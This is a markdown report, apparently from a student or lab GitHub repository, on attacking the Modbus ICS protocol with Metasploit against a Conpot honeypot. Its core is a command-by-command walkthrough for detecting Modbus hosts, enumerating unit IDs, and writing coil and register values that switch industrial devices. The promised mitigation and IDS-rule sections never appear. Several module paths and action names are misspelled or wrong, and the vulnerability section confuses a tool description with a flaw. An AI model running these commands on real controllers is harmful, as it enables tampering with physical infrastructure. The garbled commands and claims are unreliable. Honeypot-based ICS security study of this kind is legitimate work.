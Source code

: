 
# Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting the Galil RIO-47100 "Pocket PLC."
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack


***

# Vulnerability Overview

#### Improper Input Validation
 This module detects the Modbus service, tested on a SAIA PCD1.M2 system. Modbus is a clear text protocol used in common SCADA systems, developed originally as a serial-line (RS232) async protocol, and later transformed to IP, which is called ModbusTCP.
#### Vulnerability Details
This module allows reading and writing data to a PLC using the Modbus protocol. This module is based on the 'modiconstop.rb' Basecamp module from DigitalBond, as well as the mbtget perl script.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.

## Affected Produtcs

--
## Impact

 This vulnerabilities other potential disastrous impacts of DoS attacks against SCADA/ICS systems include electrical blackouts, shutdown of water and sewage systems and other essential municipal services.

Impact to individual organizations depends on many factors that are unique to each organization.
***
# Exploitation of Vulnerability

 Metasploit has several modules specifically designed for the discovery and use of this most widely used protocol.
In order to see these modules, we will use the "search modbus" command after entering the console with the "msfconsole" command.

```sh
msfconsole
search modbus
```
![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/search-modbus.png)
The first module we will use as an exploit is the modbusdetect module. As it name implies, it is capable of detecting whether a site is running the modbus protocol. 
```sh
use auxilary/scanner/scada/modbusdetect 
```
We see the values we need to set with the "show options" command.
```sh
show options
exploit
```
This module only needs to set the destination's IP address to RHOST. The default port for Modbus is 502, so RPORT is set to 502 by default.

The destination ip is entered with the Set RHOSTS <IP-ADDRESS> command and the RHOSTS section is checked with the Show options command.
```sh
set RHOSTS <IP-address>
```
When we run this module, it goes to port 502 of the target system and sends a probe to determine if it is using modbus.
It confirms that our target is running modbus and we can now move on to our modbus-based discovery and exploit.

 We have confirmed that the target is actually running the modbus protocol, the next step is to enumerate the Unit ID's of the connected devices.

Modbus allows for up to 254 connected devices. To manipulate or communicate with any modbus device, we must have its UNIT ID, 
```sh
use auxilary/scanner/scanner/modbus_findunitid
set RHOST <IP Address>
exploit
```
This module finds the Each Unit ID of connected devices. These UNIT IDs are critical for reading and writing their data, as we will see later.
![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/findunit_idf.png)
Our next modbus module is modbusclient. It enables us to read and write the data from both the coils and registers on these SCADA systems. 

```sh
 use auxiliary/scanner/scada/modbusclient
 show options
 ``` 
 This module requires several variables to be set. Most important is the ACTION. This variable can be set as;
- READ_REGISTERS
- WRITE_REGISTERS
- READ_COILS
- WRITE_COILS

 In SCADA/ICS terminology, coils are devices on the network that are either ON or OFF. Their settings are either 1 or 0.  By changing the values of a coil, you are switching it on or off.
 
 ```sh
 set ACTION WRITE_COIL
 set DATA 1
 set DATA_ADRESS <?>
 exploit
 ``` 
We can read the coils to check if the value has actually changed.
 ``` sh
set ACTION READ_COILS
 exploit
 ``` 
 ![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/read_coils.pnfg)
 To write the values in the registers
  ``` sh
set ACTION WRITE_REGISTERS
set DATA 27,27,27,27,27
  exploit
 ``` 
 To check to see whether the values have actually changed, we can change the ACTION to READ_REGISTERS.
   ``` sh
set ACTION READ_REGISTERS
exploit
 ``` 


***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.
            ![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/Ekran%20g%C3%B6r%C3%BCnt%C3%BCs%C3%BC%202021-08-09%20174839.png)
Double-clicking on the line will open the package content. 

***


## Conclusion
Many industrial systems can be accessed and controlled using Metasploit's simple modbus modules. In the wrong hands, this manipulation of coils and registers might lead to devastating results.

